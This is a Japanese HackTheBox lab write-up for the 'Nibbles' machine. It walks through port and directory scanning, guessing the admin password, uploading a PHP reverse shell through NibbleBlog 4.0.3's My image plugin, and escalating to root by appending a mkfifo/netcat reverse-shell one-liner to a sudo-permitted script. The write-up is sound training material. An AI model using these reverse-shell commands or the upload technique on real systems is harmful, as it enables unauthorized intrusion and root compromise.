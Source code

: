 # はじめに
HackTheBoxの攻略などを自分用にまとめたものです。  
主に記録用として記しています。  
<img src="http://www.hackthebox.eu/badge/image/185549" alt="Hack The Box">
GitHub(ペネトレーションテスト用チートシート):
https://github.com/yukitsukai47/PenetrationTesting_cheatsheet
Twitter:@yukitsukai1731

# Nibbles
![スクリーンショット 2020-10-14 002351.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/50a7fefb-e919-da66-c7f7-f49fef00098b.png)

HackTheBox公式より
Nibbles is a fairly simple machine, however with the inclusion of a login blacklist, it is a fair bit more challenging to find valid credentials. Luckily, a username can be enumerated and guessing the correct password does not take long for most.

Nibbles はかなりシンプルなマシンですが、ログインブラックリストが含まれているため、有効な認証情報を見つけるのはかなり難しいです。幸いなことに、ユーザ名を列挙することができ、正しいパスワードを推測するのに時間はかかりません。

# Recon(偵察)
Nibbles(10.10.10.75)に対して、スキャンを行います。  
まずnmapでスキャンを開始します。

## nmap 

```
nmap -sC -sV -oN nmap/initial 10.10.10.75
```

- -sC...デフォルトスクリプトでスキャン
- -sV...バージョン検出
- -p-...全ポートスキャン
- -oN...通常出力

```
# Nmap 7.80 scan initiated Fri Oct  9 03:18:33 2020 as: nmap -sC -sV -oN nmap/initial 10.10.10.75
Nmap scan report for 10.10.10.75
Host is up (0.23s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Fri Oct  9 03:18:57 2020 -- 1 IP address (1 host up) scanned in 24.36 seconds
```

この結果から、22,80番ポートが空いていることが分かります。  
まずは80番ポートを確認してみます。
![スクリーンショット 2020-10-14 002842.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/2666c7e6-bd97-f0c2-963c-d9330af5f53e.png)
ソースコードを表示すると/nibbleblog/について言及があるので、アクセスしてみます。
![スクリーンショット 2020-10-14 002910.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/cb18fce7-3141-9c9d-da73-04006473ad87.png)
すると以下のようなページにアクセスすることができます。
![スクリーンショット 2020-10-14 002927.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/52f9d949-fc0b-4947-86b6-29e2f8608f2b.png)
ここからgobusterを使ってディレクトリ・ファイルの列挙を行っていきます。

## gobuster

```
gobuster dir -u http://10.10.10.75/nibbleblog/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 50 -o gobuster/initial
```

```
kali@kali:~/htb/Nibbles/gobuster$ cat initial
/content (Status: 301)
/sitemap.php (Status: 200)
/themes (Status: 301)
/feed.php (Status: 200)
/index.php (Status: 200)
/admin (Status: 301)
/admin.php (Status: 200)
/plugins (Status: 301)
/install.php (Status: 200)
/update.php (Status: 200)
/README (Status: 200)
/languages (Status: 301)
/LICENSE.txt (Status: 200)
/COPYRIGHT.txt (Status: 200)
```

/READMEにアクセスをすると、nibbleblog 4.0.3というバージョンを確認することができます。
![スクリーンショット 2020-10-14 003328.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/3a75cdd3-b7e1-e14c-9ba7-31dda7de3561.png)
nibbleblogのバージョンが分かったところで、googleを使って、使えそうなexploitを検索してみます。
https://packetstormsecurity.com/files/133425/NibbleBlog-4.0.3-Shell-Upload.html
![スクリーンショット 2020-10-14 004911.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/8da0b254-8670-26e8-9e3a-5502e902e87f.png)

どうやらMy imageプラグインを使ったアップロードに拡張子のチェックがされていないためPHPファイルをアップロードできる脆弱性があるようです。

![スクリーンショット 2020-10-14 003414.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/98429967-0f03-4b1f-ad6c-3e6cfaa16642.png)

しかしこの脆弱性を利用するには、nibbleblogの管理ページにアクセスする必要があります。  
/admin.php
![スクリーンショット 2020-10-14 005704.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/f3a75ec3-7df5-2dca-0ecf-e08be3038a5c.png)
ユーザ名やパスワードの手がかりを探すと、/nibbleblog/content/private/users.xmlにadminと記載されていることが分かります。
![スクリーンショット 2020-10-14 005505.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/c2deb9fd-a6f4-3d73-021b-be309794e4bb.png)
またgoogleで検索すると、nibbleblogにはデフォルトのパスワードは存在せず、インストール時にパスワードを設定するタイプのようです。

いろいろパスワードを入れてみると、admin/nibblesでログインに成功します。
![スクリーンショット 2020-10-14 010135.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/addd6ac4-ce83-f487-381e-223bbfefc216.png)

# exploitation(侵入)
ここから下記のサイトを参考にphpシェルのアップロードを行います。
https://wikihak.com/how-to-upload-a-shell-in-nibbleblog-4-0-3/
![スクリーンショット 2020-10-14 004524.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/b9fbcfd4-911f-0b63-d16b-ce4bb525bb92.png)
[Plugins]→[My image]→[Configure]と進んでいくとアップロード画面にたどり着きます。
![スクリーンショット 2020-10-14 010804.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/eb73359d-ab61-4730-fa47-167198c46da1.png)

pentestmonkeyのphp reverse shellを自身のIPと待ち受けportに書き換えてアップロードするファイルを用意します。
![スクリーンショット 2020-10-14 010724.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/93289baa-f265-7aec-abc3-4dd53b5a1b3f.png)
![スクリーンショット 2020-10-14 010704.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/84197119-94ec-c394-1a33-f91a2e312c44.png)

作成したreverse_shellファイルをアップロードします。
![スクリーンショット 2020-10-14 011059.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/fae1e24d-b84a-0459-1a9b-4d23a6fdf073.png)
いろいろエラーが出ますが、気にしなくて大丈夫なようです。
![スクリーンショット 2020-10-14 011116.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/1a47e880-7738-658a-7065-ddb51b6c4801.png)

/nibbleblog/content/private/plugins/my_imageにアクセスし、netcatで通信を待ち受けてからimage.phpを押下します。
![スクリーンショット 2020-10-14 011334.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/6161325f-31c5-8f35-ea3f-864b438bd58e.png)
完了すると、シェルをゲットすることができます。  
python3が入っているようなのでより使いやすいシェルにしておきます。

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```

![スクリーンショット 2020-10-14 011723.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/a7044981-e183-9a59-6f73-cb5e2329d5d7.png)

# Privileges Escalation(権限昇格)
sudo -lコマンドを使って悪用できそうな権限設定のミスがないか列挙します。

```
sudo -l
```
この結果から、/home/nibbler/personal/stuff/monitor.shはNOPASSWDでroot権限として動作させることができるようです。
![スクリーンショット 2020-10-14 012041.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/b942d26e-b49c-edc1-fed0-3bcdb8a9caa4.png)
monitor.shの中身を見てみます。  
personal.zipがあるのでunzipしてから確認します。
![スクリーンショット 2020-10-14 012616.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/c94d48c3-1233-7512-dbf6-c43301770c3c.png)

nibblesに入っているnetcatは -eオプションが使えなかったため以下のものをmonitor.shに追加します。
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

```
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.27 8888" >> monitor.sh
```

netcatで待ち受けてから、monitor.shをsudo権限で実行します。

```
nc -lvnp 8888
```

```
sudo ./monitor.sh
```

![スクリーンショット 2020-10-14 013315.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/447800/a4418e53-1606-ab09-decf-22cf2104908a.png)
お疲れさまでした。
root権限を取得することができました。
